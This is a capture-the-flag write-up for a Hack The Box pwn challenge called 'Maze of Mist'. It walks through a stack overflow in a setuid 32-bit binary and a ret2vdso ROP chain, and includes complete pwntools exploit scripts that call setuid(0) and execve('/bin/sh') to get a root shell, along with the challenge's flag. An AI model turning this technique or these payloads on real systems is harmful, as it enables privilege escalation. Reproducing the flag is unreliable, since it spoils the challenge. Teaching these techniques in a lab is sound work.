

        <font size="10">Maze of Mist</font>

​	5<sup>th</sup> Jan 2024

​	Challenge Author(s): itzkarudo


# Synopsis

Maze of Mist is a Hard pwn challenge that involves utilising the ret2vdso technique to perform a ROP and gain code execution. The user is given a QEMU image with ASLR disabled and a vulnerable program in `/target` that has a simple stack buffer overflow; the target is too small and has no useful ROP gadgets, so the only way to move forward is to utilize the kernel's VDSO instructions.

## Description

As you stride into your next battle, an enveloping mist surrounds you, gradually robbing you of eyesight. Though you can move, the path ahead seems nonexistent, leaving you stationary within the confines of your existence. Can you discover an escape from this boundless stagnation?

## Skills Required
 - Basic ROP

## Skills Learned
 - The `ret2vdso` technique

# Enumeration

## Analysing the binary

The user is presented with the following files:

- Linux kernel image (`vmlinuz-linux`)
- Linux rootfs archive (`initramfs.cpio.gz`)
- QEMU run script (`run.sh`)

We start by extracting the file system from the `initramfs.cpio.gz` file:

```sh
gzip -cd initramfs.cpio.gz | cpio -idmv
```

There are a couple of interesting files here:

- `/init`, which defines the initialization process of the machine.
- `/target`, which is the vulnerable binary we need to exploit.

After examining `/init`, we can note a couple of things:

- The flag is at `/root/flag.txt`
- The `/target` binary is a `setuid` binary owned by `root`
- ASLR is disabled on the machine (`echo 0 >/proc/sys/kernel/randomize_va_space`)

Checking the `/target` binary, we see that it's a very small 32-bit ELF binary that prints some text and reads `0x200` bytes into a stack buffer of size `0x20`, so we have a basic stack buffer overflow.

## Setting up the debug environment

To move forwards, we will ideally need to get `gdb` running inside the virtual machine so we don't fall victim to environment inconsistencies. We can download a [statically linked `gdb` binary](https://github.com/hugsy/gdb-static/blob/master/gdb-7.10.1-x64) and place it inside our extracted `rootfs`, then we can compress the `rootfs` again into the `initramfs.cpio.gz` file using a similar `compress.sh` script:

```bash
#!/bin/bash
cd rootfs
find . -print0 \
| cpio --null -ov --format=newc \
| gzip -9 > initramfs.cpio.gz
mv ./initramfs.cpio.gz ../
```

Running the machine now, we can find `gdb` ready to use.

## Getting temporary root

To make navigating the machine easier, we can make ourselves root temporarily by modifiying the following line in `/init`:

```bash
#setsid cttyhack setuidgid 1000 /bin/sh
setsid cttyhack setuidgid 0 /bin/sh
```

and running `compress.sh` again - **don't forget to revert this later so you avoid false positives!**

## Planning the exploit

As we've seen before, the binary is tiny - we have basically no gadgets for ROP. We can also see that the `NX` bit is enabled, so we can't insert our own shellcode on the stack and execute it.

Taking a look at the memory map, we can see that we have a couple of executable pages: the `/target` page that contains the binary's code, and some `[vdso]` page mapped by the kernel. After a bit of reading we can learn that `VDSO` is a **virtual shared object** mapped by the kernel in all executables, and it contains code that allows calling some syscalls, meaning we might be able to use it to create a ROP chain.

# Solution

## Dumping the VDSO

The VDSO is kernel specific, meaning we can't just use our system's VDSO and call it a day - we need to dump the VDSO from the machine. We can use `gdb` to dump the VDSO with the following command:

```gdb
dump binary memory vdso_file [start_addr] [end_addr]
```

After dumping the VDSO, we can copy it to our host machine using `base64` and a load of copy-pasting.

## Finding gadgets

Since the machine is running on `busybox` our goal is to call

```c
execve("/bin/sh", {"sh", NULL}, NULL);
```

Why not the classic `execve("/bin/sh", NULL, NULL)`? Well, `busybox` is basically one program that implements all the coreutils - everything else, including `/bin/sh`, is just a symlink to `/bin/busybox`:



`busybox` gets the actual program that needs to be executed using `argv`, so we have to populate it.

So we need to control `eax`, `ebx`, `ecx`, `edx` and we need an `int 0x80` to trigger a syscall.

We can easily find `int 0x80` and `pop edx; pop ecx; ret` gadgets using `ropper`. `eax`, however is, slightly trickier. By examining the instructions in the VDSO, we can see the following sequence of instructions at offset `0x67c`:

```as
mov    eax,ecx
add    eax,DWORD PTR [ebp-0x20]
lea    edx,[ebx+edi*1]
adc    edx,DWORD PTR [ebp-0x1c]
add    esp,0x2c
pop    ebx
and    edx,0x7fffffff
pop    esi
pop    edi
pop    ebp
ret
```

We can use this to move the value in `ecx` to `eax`, as long as `ebp` points to a valid memory. We can easily find a `pop ebp` to ensure that. We can also see the convenient `pop ebx` that we can use in our ROP chain.

## Setting up the ROP chain

At this point we can just do a normal ROP chain. As ASLR is disabled, we don't need to leak anything.

**Note**: when debugging with gdb, make sure to unset the `LINES` and `COLUMNS` environment variables since they will mess the stack addresses and the address to the `/bin/sh` string and the `argv` array will be wrong when not running in gdb.

```
unset env LINES
unset env COLUMNS
```

## No root privileges?

At this point, our exploit looks like this

```py
from pwn import *

context.binary = './target'			# make sure all packing is done in 32-bit mode, as per the target

VDSO_BASE_ADDR = 0xf7ffc000

MOV_EAX_ECX_PLUS_EBP_M20_MOV_EBX = VDSO_BASE_ADDR + 0x67c
POP_EBP = VDSO_BASE_ADDR + 0x0000613
POP_EDX_ECX = VDSO_BASE_ADDR + 0x0000057a
SYSCALL = VDSO_BASE_ADDR + 0x00000577
BINSH = 0xffffded0
ARGV = BINSH + 8

payload = flat(
    b'A'*0x20,

    POP_EBP,
    0x8048028,          # EBP

    POP_EDX_ECX,
    0,                  # EDX
    11,                 # ECX -> EAX

    MOV_EAX_ECX_PLUS_EBP_M20_MOV_EBX,
    b'A'*44,
    BINSH,
    b'A'*12,
    
    POP_EDX_ECX,
    0,
    ARGV,
    SYSCALL,
    b'/bin/sh\x00',
    BINSH+5,
    0
)

print(payload)
```

We can feed it to the binary as so:

```sh
$ (echo -e "<<payload>>"; cat) | ./target
```

The `-e` flag means hex codes such as `\xf8` are interpreted as the byte `0xf8`, rather than the characters `\` then `x` etc.

We get a shell! Unfortunately we're still the `challenger` user - this is because `/bin/sh` drops privileges when `the real user id != the effective user id`, we can bypass this by setting our real user id before calling `execve` using `setuid(0)`.

Our final exploit is this:

```py
from pwn import *

context.binary = './target'

VDSO_BASE_ADDR = 0xf7ffc000

MOV_EAX_ECX_PLUS_EBP_M20 = VDSO_BASE_ADDR + 0x67c
POP_EBP = VDSO_BASE_ADDR + 0x0000613
POP_EDX_ECX = VDSO_BASE_ADDR + 0x0000057a
SYSCALL_POP_EBP_EDX_ECX = VDSO_BASE_ADDR + 0x00000577
BINSH = 0xffffdf20
ARGV = BINSH + 8

payload = flat(
    b'A'*0x20,
    
    POP_EBP, 
    0x8048028,

    POP_EDX_ECX, 
    0, 
    23,

    MOV_EAX_ECX_PLUS_EBP_M20,
    b'A'*44,
    0,
    b'A'*12,
    SYSCALL_POP_EBP_EDX_ECX,
    0x8048028,
    0, 11,
    MOV_EAX_ECX_PLUS_EBP_M20,
    b'A'*44,
    BINSH,
    b'A'*12,

    POP_EDX_ECX,
    0,
    ARGV,

    SYSCALL_POP_EBP_EDX_ECX,
    b'/bin/sh\x00',
    BINSH+5,
    0
)

print(payload)

```

## Getting the flag

A final summary of all that was said above:

1. ASLR is disabled, so we have the addresses for all memory regions in the process' virtual memory
2. We dump the machine's VDSO to analyse it
3. We extract useful gadgets that allow us to call `setuid()` and `execve()`
4. We place the `/bin/sh` string and the fake `argv` array into the stack at an address we know so it can be used in the `execve()` call
5. ROP into the gadgets to call `setuid(0)` and `execve("/bin/sh", {"sh", NULL}, NULL)`
6. Read `/root/flag.txt` to get the flag `HTB{Sm4sh1nG_Th3_V01d_F0r_Fun_4nd_Pr0f1t}`
